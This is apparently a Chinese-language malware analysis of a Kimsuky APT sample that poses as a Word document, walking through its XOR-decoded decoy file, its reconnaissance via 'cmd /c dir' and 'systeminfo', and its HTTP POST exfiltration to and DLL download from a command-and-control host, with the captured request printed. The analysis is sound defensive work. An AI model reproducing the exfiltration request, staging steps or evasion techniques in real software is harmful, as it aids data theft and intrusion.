# 一个KimsukyAPT样本分析

md5: adc39a303e9f77185758587875097bb6

## 1. 基础静态分析获取信息

### 1.1 字符串

```
mscoree.dll
/c dir %s/ >> %s
/c systeminfo >> %s
/Microsoft/HNC
wct.docx
tcf.bin
portable.epizy.com
img/png/post.php
img/png/download.php
images01
Content-Type: application/x-www-form-urlencoded
Mozilla/5.0
Content-Disposition: form-data; name="MAX_FILE_SIZE"
Content-Disposition: form-data; name="userfile"; filename="
Content-Type: application/octet-stream
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywhpFxMBe19cSjFnG
Accept-Language: en-us
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322)
Host: %s
Referer: http://%s%s
JUYFON
```

从包含的字符串中可以看到一些命令行参数、URL路径、文件名、请求头部的内容，作为进一步分析的参考，除此之外，最后的`JUYFON`实际上是文件资源段中包含的一部分内容：



### 1.2 导入函数

```c
FindResourceA
SizeofResource
LoadResource
LockResource				// 验证了样本确实对资源段内容进行了操作
IsDebuggerPresent
OutputDebugStringW
QueryPerformanceCounter		// 反调试？反虚拟机？
FindClose
FindFirstFileExA
FindNextFileA				// 文件夹遍历
ShellExecuteExA
ShellExecuteA				// 命令执行
CreateFileA
DeleteFileA
WriteFile					// 文件操作
CreateThread				// 创建线程
```

### 1.3 资源段信息



可以看到里面有大段的`7F`，所以合理判断这段内容使用了异或编码，将其导出并使用`7F`解码后：



以`PK`开头，应该是一个`zip`文件。修改扩展名后打开，发现里面是这样的：



在网上查了一下，应该要把扩展名修改为`docx`，打开之后是一个韩文的文档，以下是翻译结果：



## 2. 基础动态分析获取信息

使用`ApateDNS`和`Inetsim`、`nc`搭建好一个虚拟的网络环境，`Wireshark`抓包，火绒剑进行监控。样本执行后，打开的内容与上节中资源段发现的文档相同，样本伪装成了一个word文档，只不过电脑设置显示扩展名，所以可以看出它是一个exe文件。

### 2.1 火绒剑的输出



可以看到样本执行后在临时文件夹新建了一个文档（由于虚拟机语言是英文的，所以文档名显示不出来，资源管理器里面显示的是`4.[酒怕楷备]稠巩捧绊痹沥.docx`），经过计算，该文档的MD5值为`dc2f8205b8dcfcfc8f2800d10a7c1499`，与上节中资源段中提取出来的文档MD5值相同。



之后创建了进程`WORDPAD.EXE`（因为我的虚拟机没装WORD，所以它打开的是写字板），可以看到样本对进程内存进行了一些修改，查看行为详情，发现它最终执行的是`cmdline:'"C:/Program Files/Windows NT/Accessories/WORDPAD.EXE" "C:/Users/zoem/AppData/Local/Temp/4.[????]??????.docx"'`，也就是说这里实现了样本伪装word文档的目的。

接下来是一系列的`cmd.exe`进程创建行为，并创建、修改了一个叫做`wct.docx`的文档，从行为详情中发现，命令行最终执行的是一系列`cmdline:'"C:/Windows/system32/cmd.exe" 【参数】 >> C:/Users/zoem/AppData/Roaming/MICROS~1/HNC/wct.docx'`的命令，具体的参数信息有：

```
/c dir C:/Users/zoem/Desktop/
/c dir C:/Users/zoem/AppData/Roaming/MICROS~1/Windows/Recent/
/c dir C:/PROGRA~1/
/c systeminfo
```

也就是说样本收集了所在主机中的部分文件信息以及硬件和系统配置信息，然后保存到了`wct.docx`文件中





最后样本连接了`portable.epizy.com`的80和8080端口，POST出去了一些数据，然后删除了`wct.docx`。所以合理怀疑这里就是把`wct.docx`中的内容发送出去了。

### 2.2 Wireshark抓包结果



数据内容：

```
POST http://portable.epizy.com/img/png/post.php HTTP/1.1
Accept: */*
Host: portable.epizy.com
Referer: http://portable.epizy.comimg/png/post.php
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywhpFxMBe19cSjFnG
Accept-Language: en-us
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; .NET CLR 1.1.4322)
Content-Length: 5897
Proxy-Connection: Keep-Alive
Pragma: no-cache


------WebKitFormBoundarywhpFxMBe19cSjFnG
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundarywhpFxMBe19cSjFnG
Content-Disposition: form-data; name="userfile"; filename="images01"
Content-Type: application/octet-stream

ªÓ¨møÂ|ÒÖ9)f	Ñ
……
……
------WebKitFormBoundarywhpFxMBe19cSjFnG
```

可以看到样本发送出去了一个`images01`文件，文件的内容：


看来是被加密了。

## 3. 详细分析

### 3.1 主程序

在IDA中打开，`start`函数中定位到一个3个`push`+1个`call`的指令组合，而且还有`400000h`这个立即数，比较可疑，双击进入后可以看到一些库文件的加载以及资源段的处理，看来应该就是主程序了，将该函数重命名为`main`。



`main`函数的开头分别加载了库文件`kernel32.dll`、`Wininet.dll`和`advapi32.dll`中的一些函数，然后加载了`JUYFON`资源段，同时在堆上分配了一个空间。



之后是对资源段的一些处理，这部分内容从代码看有些复杂，但是应该就是在做`7F`的异或，可以在Ollydbg中打开该样本进行动态分析，定位到资源段处理的这部分代码：

*注：为了便于定位代码位置，可以在IDA中使用`Edit->Segments->Rebase program`修改基地址。*



memory dump应该定位到堆分配的空间处。可以看到在两段循环结束后，堆分配空间中的内容是一段以`PK`开头的数据。第一段循环是以32字节为单位进行异或，第二段循环对剩下的23字节逐字节进行异或。



之后的流程就很明显了，样本先删除了临时文件夹中可能存在的docx文档（`4.[酒怕楷备]稠巩捧绊痹沥.docx`），然后重新创建该文档，并将资源段解码后的内容写入，然后释放分配的堆空间，打开该docx文档，然后创建了一个新线程，最后进入了一个无线循环。

### 3.2 线程函数

接下来看以下线程都干了些什么：

*注：`CreateDirectoryA`和`GetShortPathName`是根据动态调试的结果自己修改的。*



可以看到它创建了两个路径字符串，根据动态调试结果：

```
FileName: C:/Users/zoem/AppData/Roaming/MICROS~1/HNC/wct.docx
byte_11CDBB8: C:/Users/zoem/AppData/Roaming/MICROS~1/HNC/tcf.bin
```

之后主要由三个函数组成。

#### 3.2.1 sub_11B4250

接下来调用了函数`sub_11B4250`：



可以看到它执行了一系列的参数为`/c dir`命令，和**2.1 火绒剑的输出**中获得的信息一致，样本将一些系统信息写入到了`wct.docx`文件中。

在调试器中执行到该函数末尾，然后可以查看`wct.docx`文件内容：


#### 3.2.2 sub_11B49E0

然后看第二个函数`sub_11B49E0`:



可以看到函数主体中包含了很多之前wireshark抓包中数据包的内容，所以这个函数应该就是在构建这个数据包进行发送。

函数一开始获取了`wct.docx`文件中的内容：



在动态调试这个函数的时候遇到一个问题，OD在分析下面这段指令的时候：



即

```
.text:010A4D1B F3 0F 7E 05 48 91 0B 01 movq    xmm0, qword ptr ds:aWebkitformboun+20h ; 
.text:010A4D23 66 0F D6 85 E8 FE FF FF movq    [ebp+var_118], xmm0
```

这两句指令无法正确识别，所以我临时换成了x32dbg继续进行分析。

当函数完成数据包的构造之后，执行到接近函数末尾的`call xeyo.3E4DD0`时，可以查看`ebx`指向的memory dump，其内容就是要发送的数据包的内容。

*注：因为多次重新调试，基地址发生的变化，但是后四位的偏移是没变的。*



函数`xeyo.3E4DD0`的内容在IDA中为：



看起来这几个`dword_`开头的函数应该就是一些网络相关函数，在x32dbg中查看：



所以这个函数就是在把构造好的数据发送出去。

综上，函数`sub_11B49E0`先构造要发送的数据，然后通过网络发送出去。

#### 3.2.3 sub_11B45C0



可以看到这个函数向`portable.epizy.com`发送了一个GET请求，请求路径为`img/png/download.php?filename=images01`。收到请求之后，函数会检查文件开头两个字节是否为`B2 A5`:



注意到`B2 A5`的二进制为`1011 0010 1010 0101 `，逐位取反结果为`0100 1101 0101 1010`，即`4D 5A`，转换成ascii就是`MZ`。

如果检查通过，函数会创建`tcf.bin`文件并将内容写入，然后会执行`LoadLibraryA`将该文件导入，也就是说这个文件是一个DLL文件。

